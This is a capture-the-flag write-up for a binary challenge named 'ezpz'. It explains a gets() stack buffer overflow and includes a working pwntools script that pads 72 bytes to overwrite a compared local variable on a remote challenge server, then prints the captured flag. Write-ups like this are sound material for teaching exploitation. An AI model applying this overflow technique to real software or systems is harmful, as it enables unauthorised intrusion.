



First things first, lets check file protections

```sh
checksec --file ezpz
```



Its using `gets()` so we have buffer overflow

Lets look at decompiled code



It is comparing local variable value to `0xffffffffffffffff`, now we need to find where this local variable is in the memory and overwrite its value

Lets check decompiled code of main function



And the the value at `rbp-0x8` is being compared to `0xffffffffffffffff`

So rbp-0x8 is the var_10h variable that we saw in decompiled code and it is being compared to the value 0xffffffffffffffff
Since we have buffer overflow we can overwrite the location rbp-0x8

The offset to reach rip is 88 bytes which is rbp+0x8, so 88 bytes to reach return address, below it(stack grows downwards) is the rbp so at offset of 80 bytes and then is rbp-0x8 at offset of 72 bytes, so lets create a solve script

```python
#!/usr/bin/env python3

from pwn import *

exe = './ezpz'
elf = context.binary = ELF(exe,checksec=False)
context.log_level='debug'

host,port = '165.227.103.166',6002

#p = process(exe)
p = remote(host,port)

padding = 72

param1 = 0xffffffffffffffff

payload = flat(
    asm('nop')*padding,#padding to reach EIP
    param1,
)

write("payload2",payload)
p.sendlineafter(b'proud?',payload)
p.interactive()
```

**_flag : CIT{pr0bably_t00_3azy_4_U_9920int3oksalfqFoi3b3ofiql7}_**
